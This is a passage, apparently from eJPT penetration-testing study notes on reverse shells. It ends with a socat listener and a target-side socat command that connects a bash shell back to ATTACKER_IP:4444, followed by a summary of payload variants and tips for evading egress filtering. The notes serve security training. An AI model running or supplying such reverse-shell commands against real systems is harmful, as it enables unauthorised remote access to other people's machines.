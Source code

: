 socat best TTY:
- Attacker:
```bash
socat -d -d TCP-LISTEN:4444,reuseaddr,fork FILE:`tty`,raw,echo=0
```
- Target:
```bash
socat exec:"bash -li",pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:4444
```

## Summary
- Reverse shells have the target connect back to you, making them far more reliable through NAT/firewalls than bind shells.
- Core steps: start a listener, trigger a suitable OS-specific reverse payload, catch and stabilize the shell, then proceed with enumeration.
- Know multiple payload variants (bash, nc without -e, Python, Perl, PHP, PowerShell) and when to use each.
- Improve shell quality with rlwrap/pty/socat and prepare for common obstacles (egress filtering, missing tools, quoting/bad characters).
- These techniques are staples in the eJPT; practice the full flow until you can deploy the right one-liner quickly and stabilize it.